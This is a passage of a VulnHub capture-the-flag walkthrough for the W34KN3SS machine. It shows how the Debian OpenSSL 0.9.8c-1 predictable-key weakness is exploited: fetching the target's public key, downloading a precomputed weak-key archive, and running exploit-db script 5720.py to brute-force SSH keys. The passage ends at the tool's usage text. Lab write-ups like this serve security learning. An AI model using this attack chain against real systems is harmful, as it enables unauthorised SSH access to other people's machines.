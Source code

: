 
##  openssl 0.9.8c-1 Exploit
1. View `mykey.pub`
	```
	┌──(root💀kali)-[~/vulnHub/W34KN3SS]
	└─# curl -s http://weakness.jth/private/files/mykey.pub
	ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
	```
	- Target Machine Hostname: `targetcluster`
	- Private Key Path: `/root/.ssh/id_rsa`
2. View `notes.txt`
	```
	┌──(root💀kali)-[~/vulnHub/W34KN3SS]
	└─# curl -s http://weakness.jth/private/files/notes.txt
	this key was generated by openssl 0.9.8c-1
	```
	- `openssl 0.9.8c-1`
3. Search exploits for `openssl 0.9.8c-1`

	|  #  | Exploit Title                                                                       | Path                  |
	| --- | ----------------------------------------------------------------------------------- | --------------------- |
	| 1   | OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force | linux/remote/5622.txt |
	| 2   | OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force | linux/remote/5632.rb  |
	| 3   | OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Forc | linux/remote/5720.py

4. `openssl 0.9.8c-1` is exploitable because there are only 65.536 possible ssh  keys generated.
5. Use `linux/remote/5720.py`
	1. Follow the instructions in `5720.py`
	2. Download `5622.tar.bz2`
		```
		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit]
		└─# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2 -q
		```
	3. Extract
		```
		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit]
		└─# tar -xvf 5622.tar.bz2
		rsa/2048/2c39076a750679c89ed30581f3371a03-21786.pub
		rsa/2048/34602375d32e68ab98b48ab008a1d0f9-8985
		rsa/2048/b009a4aaa5deae5f11c66a26d0a42de6-11400.pub
		...
		```
	4. Execute python script
		```
		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit]
		└─# python 5720.py 
		-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
		./exploit.py <dir> <host> <user> [[port] [threads]]
			<dir>: Path to SSH privatekeys (ex. /home/john/keys) without final slash
			<host>: The victim host
			<user>: The user of the victim host
			[port]: The SSH port of the victim host (default 22)
			[threads]: Number of threads (default 4) Too big numer is bad
